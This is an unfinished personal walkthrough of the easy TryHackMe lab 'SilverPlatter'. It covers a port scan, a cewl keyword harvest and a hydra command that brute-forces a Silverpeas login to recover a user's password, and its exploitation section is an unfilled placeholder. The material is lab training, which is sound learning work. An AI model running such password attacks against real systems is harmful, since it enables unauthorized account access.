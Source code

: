 ```yaml
---
layout: default
title: "TryHackMe: SilverPlatter Walkthrough (Easy)"
date: 2025-07-16
---
```


# SilverPlatter Walkthrough (Easy)

## Overview
As part of the class [Introduction to Hacking Methodology](https://academy.simplycyber.io/p/introduction-to-hacking-methodology)
I took [these notes](https://www.notion.so/Introduction-to-Hacking-Methodology-GitHub-Pages-23346f98ca3080d18194f3b09c709143?source=copy_link) while hacking a machine called silver-platter.

This is an introductory class and the difficulty of the Linux machine is fairly low; still, this is the first mtime that I have managed to hack one (with some help from one video) and I am very proud of it, so I decided to put this page together to help other students like me. My main focus is in highlighting the reasoning behind the commands, as opposed to simply listing all the required steps without justification or context.

When you look at my solution, do not get discouraged because you fear you would never think about doing some of these things, instead consider that:
1. I have been studying hacking for 6 solid months, and so far this easy machine is all I have to show for it.
2. I used Claude AI to help me every step of the way.
3. I am a software engineer that has been working for 25 years in Silicon Valley.
4. It took me 12 days to completely solve this machine and find both flags (5 days to find the first one.)
5. Since I was stuck during the privesc phase, I had to give a peek to a video in the course that essentially says "I am not gonna tell you yet how to privesc this machine, but I am going to tell you that it has something to do with the fact that tim belongs to the adm group." Sincerely, I don't know how many times I had already looked at the logs and didn't see the password, but once I knew that the solution HAD to be in the logs, I was finally able to see it; so what did I spend the last 7 days doing? In short, chasing rabbit holes, but it does not mean that it was all for nothing, in fact I believe that trying and failing is how I will eventually learn how to hack faster.

## Reconnaissance (information gathering)

### Port Scanning
We start with port scanning, that normally means using nmap; we are going to use nmap indirectly via rustscan because rustscan is fast, and we like not having to wait too long; the output is very long, so we are going to cut it down to the essential parts.

```
┌──(kali㉿kali)-[/opt]
└─$ rustscan -a 10.10.160.74 -- -A

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       syn-ack ttl 61 nginx 1.18.0 (Ubuntu)
8080/tcp open  http-proxy syn-ack ttl 60

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   79.35 ms  10.6.0.1
2   ... 3
4   149.33 ms silverplatter.thm (10.10.160.74)
```

From the TRACEROUTE section we see that the domain name is **silverplatter.thm** with IPv4 address **10.10.160.74**

Action: we add both the domain and the IPv4 address to the /etc/hosts file, so we will be better able to reuse our commands even if the IP address of the VM changes (because the VM's timeout expires):

Inside the **/etc/hosts** file:

```
[...]
10.10.160.74    silverplatter.thm
[...]
```

### 22/tcp (ssh) OpenSSH 8.9p1 [part 1]
From the port scanning output we gather that OpenSSH is on version 8.9p1 .

### 80/tcp (http) nginx 1.18.0 (Ubuntu)
From the port scanning output we gather that nginx (static web server) is on version 1.18.0 and that the operating system is Ubuntu Linux.

### silverplatter.thm:80
Since on port 80 we have a web server, the first thing we are going to do is to point a web browser to http://silverplatter.thm:80 and visually check the web site.

From the Contact section:

```
Contact

If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".
```

we collect the following information
- Username: scr1ptkiddy
- Role: project manager
- Silverpeas (likely on port 8080)

So, it appears that there is a Silverpeas server (later we will find that it does run on port 8080) with a user named **scr1ptkiddy**, but we don't know the corresponding password yet.

It is also important, when looking at a web site, to use the View Source feature of all modern web brosers to see whether there are any obvious pieces of interesting information left by the developers in comments (things like users, passwords, and generally speaking, any type of information disclosure that would help us gain an advantage in our attempt to get into the machine.) Unfortunately, in this particular web site's source code there is nothing noteworthy.

### cewl
Since we know about a user named scr1ptkiddy for a Silverpeas server running on the machine we are attacking, it is worth collecting all keywords from the web pages of the web site, and later try to use a program like hydra to find the password for scr1ptkiddy.

Here is the command to scan the web site and collect all its keywords in a file:
cewl http:silverplatter.thm > silverplatter_keywords.txt

This command collects all keywords in silverplatter.thm and saves them into a file.

### hydra
We are going to use hydra to spray all the passwords in silverplatter_keywords.txt .

hydra requires several parameters.
First we run this command to learn more about how to authenticate with Silverpeas:

```
┌──(kali㉿kali)-[/tmp]
└─$ curl -s http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp | grep -E 'name=|type="password"|type="text"'
  <meta name="viewport" content="initial-scale=1.0"/>
          <label><span>Login</span><input type="text" name="Login" id="Login"/></label>
          <label><span>Password</span><input type="password" name="Password" id="Password" autocomplete="off"/></label>
            <input class="noDisplay" type="hidden" name="DomainId" value="0"/>
```

From the above output we see that the DomainId=0 hidden field is critical for Silverpeas authentication.

But we also need to identify a pattern in the Silverpeas’ response that allows us to identify incorrect passwords, so we run this command passing a "wrong password" on purpose (btw, wouldn't it be funny if we realized that 'wrongpassword' were the correct password?!):

```
┌──(kali㉿kali)-[/tmp]
└─$ curl -v -d "Login=scr1ptkiddy&Password=wrongpassword" http://silverplatter.thm:8080/silverpeas/AuthenticationServlet
...
Location: http://silverplatter.thm:8080/silverpeas/Login?ErrorCode=1&DomainId=-1
...
```

From the above we see that ErrorCode=1 appears in Silverpeas' responses when the server rejects incorrect passwords.

So, putting all of the above together, we get to finally write this hydra command:

```
┌──(kali㉿kali)-[/tmp]
└─$ hydra -l scr1ptkiddy -P silverplatter_keywords.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:ErrorCode=1"
...
[8080][http-post-form] host: silverplatter.thm   login: scr1ptkiddy   password: adipiscing
...
```

*** PROBLEM: WE HAVEN'T EXPLAINED HOW WE KNOW THAT SILVERPEAS RUNS ON PORT 8080.

From the above output we see that adipiscing is the correct password for scr2ptkiddy.

### 8080/tcp (http-proxy)
Browsing to http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp we enter scr1ptkiddy and adipiscing:

*** PUT SCREENSHOT HERE

## Exploitation (use information gathered during reconnaissance)
Step-by-step walkthrough...


## Lessons Learned
Key takeaways from this challenge...
